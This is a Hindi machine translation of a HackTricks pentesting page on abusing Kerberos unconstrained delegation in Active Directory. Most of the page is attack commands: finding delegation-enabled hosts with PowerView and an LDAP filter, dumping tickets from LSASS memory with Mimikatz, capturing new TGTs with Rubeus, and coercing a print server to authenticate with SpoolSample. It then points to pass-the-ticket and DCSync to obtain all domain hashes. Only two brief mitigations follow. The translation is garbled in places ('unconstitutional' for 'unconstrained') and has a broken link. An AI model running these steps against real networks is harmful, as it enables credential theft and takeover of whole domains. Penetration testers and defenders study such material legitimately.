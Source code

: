 # असंविधानिक डिलीगेशन

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में **शामिल हों** या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का पालन करें**.
* **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें**।

</details>

## असंविधानिक डिलीगेशन

यह एक सुविधा है जिसे डोमेन प्रशासक किसी भी **कंप्यूटर** में सेट कर सकता है। फिर, जब भी एक **उपयोगकर्ता लॉगिन** करता है कंप्यूटर पर, उस उपयोगकर्ता के **TGT की एक प्रतिलिपि** DC द्वारा प्रदान किए गए TGS में **भेजी जाएगी और LSASS में मेमोरी में सहेजी जाएगी**। इसलिए, यदि आपके पास मशीन पर प्रशासक विशेषाधिकार हैं, तो आप किसी भी मशीन पर टिकट्स को **डंप कर सकेंगे और उपयोगकर्ताओं का अनुकरण कर सकेंगे**।

तो यदि डोमेन व्यवस्थापक "असंविधानिक डिलीगेशन" सुविधा सक्रिय करके किसी कंप्यूटर में लॉगिन करता है, और आपके पास उस मशीन में स्थानीय प्रशासक विशेषाधिकार हैं, तो आप कहीं भी टिकट को डंप कर सकेंगे और डोमेन व्यवस्थापक का अनुकरण कर सकेंगे (डोमेन प्राइवेसी).

आप इस गुण के साथ **कंप्यूटर ऑब्जेक्ट्स ढूंढ सकते हैं** जांचकर कि क्या [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) गुण [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) को समावेश करता है। आप इसे एक LDAP फ़िल्टर के साथ कर सकते हैं ' (userAccountControl:1.2.840.113556.1.4.803:=524288) ', जो powerview करता है:

<pre class="language-bash"><code class="lang-bash"># असंविधानिक कंप्यूटरों की सूची
## Powerview
Get-NetComputer -Unconstrained #DCs हमेशा दिखाई देते हैं लेकिन privesc के लिए उपयोगी नहीं होते हैं
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Mimikatz के साथ टिकट निर्यात करें
</strong>privilege::debug
sekurlsa::tickets /export #सिफारिश की जाती है
kerberos::list /export #एक और तरीका

# लॉगिन की निगरानी करें और नए टिकट निर्यात करें
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #नए TGT के लिए हर 10 सेकंड में जांचें</code></pre>

**Mimikatz** या **Rubeus** के साथ व्यवस्थापक (या पीड़ित उपयोगकर्ता) का टिकट मेमोरी में लोड करें एक [**पास द टिकट**](pass-the-ticket.md)** के लिए**।\
अधिक जानकारी: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**ired.team में असंविधानिक डिलीगेशन के बारे में अधिक जानकारी।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **प्रमाणीकरण को बलवान बनाएं**

यदि एक हमलावर किसी कंप्यूटर को "असंविधानिक डिलीगेशन" के लिए अनुमति देने के लिए सक्षम है, तो वह एक **प्रिंट सर्वर** को **स्वचालित रूप से लॉगिन** करने के लिए धोखा दे सकता है और सर्वर की मेमोरी में एक TGT को सहेज सकता है।\
फिर, हमलावर उपयोगकर्ता प्रिंट सर्वर कंप्यूटर खाते का अनुकरण करने के लिए एक **पास द टिकट हमला** कर सकता है।

किसी भी मशीन के खिलाफ प्रिंट सर्वर को लॉगिन करने के लिए आप [**SpoolSample
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
यदि TGT एक डोमेन कंट्रोलर से है, तो आप एक [**DCSync हमला**](acl-persistence-abuse/#dcsync) कर सकते हैं और DC से सभी हैश प्राप्त कर सकते हैं।\
[**इस हमले के बारे में अधिक जानकारी ired.team में।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**यहां अन्य तरीके हैं जिनका उपयोग करके प्रमाणीकरण को बलवान बनाने की कोशिश की जा सकती है:**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### रोकथाम

* विशेष सेवाओं के लिए सीमित डीए/व्यवस्थापक लॉगिन करें
* उच्चाधिकारी खातों के लिए "खाता संवेदनशील है और इसे अधिग्रहण नहीं किया जा सकता" सेट करें।

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके।**

</details>
